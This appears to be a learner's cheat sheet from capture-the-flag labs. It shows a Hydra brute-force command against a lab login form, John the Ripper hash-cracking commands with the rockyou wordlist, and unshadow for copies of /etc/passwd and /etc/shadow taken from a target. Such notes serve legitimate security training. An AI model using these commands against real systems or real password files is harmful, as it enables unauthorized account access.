```
sudo hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt 10.10.134.126 http-post-form "/login/login.php:username=R1ckRul3s&password=^PASS^&sub=Login:Invalid username or password."
```
- http-post-form    --uses post from the subdirectory
- username=R1ckRul3s&password=^PASS^&sub=Login      --found in the network tab under "send and edit"
- Invalid username or password.     -- Invalid creds state, found by entering the incorrect credentials 

---
## johntheRipper

### you can also use https://crackstation.net/ to crack hashes

wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py

hash identifier
```
john hash.txt
```
uses johntheripper to crack hashed passwords
```
john --wordlist=[path to wordlist] [path to file]
```
--wordlist=~/Tryhackme/wordlists/rockyou.txt hash.txt
```
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash_to_crack.txt
```

>if you're dealing with a standard hash type, e.g. md5 as in the example above, you have to prefix it with `raw-` to tell john you're just dealing with a standard hash type, though this doesn't always apply. To check if you need to add the prefix or not, you can list all of John's formats using john `--list=formats` and either check manually, or grep for your hash type using something like `john --list=formats | grep -iF "md5"`

---

```
unshadow [path to passwd] [path to shadow]
```

>[path to passwd] - The file that contains the copy of the /etc/passwd file you've taken from the target machine

>[path to shadow] - The file that contains the copy of the /etc/shadow file you've taken from the target machine

John can be very particular about the formats it needs data in to be able to work with it, for this reason- in order to crack /etc/shadow passwords, you must combine it with the /etc/passwd file in order for John to understand the data it's being given. To do this, we use a tool built into the John suite of tools called unshadow 

---
```
zip2john [options] [zip file] > [output file]
```
convert the zip file into a hash format that John is able to understand
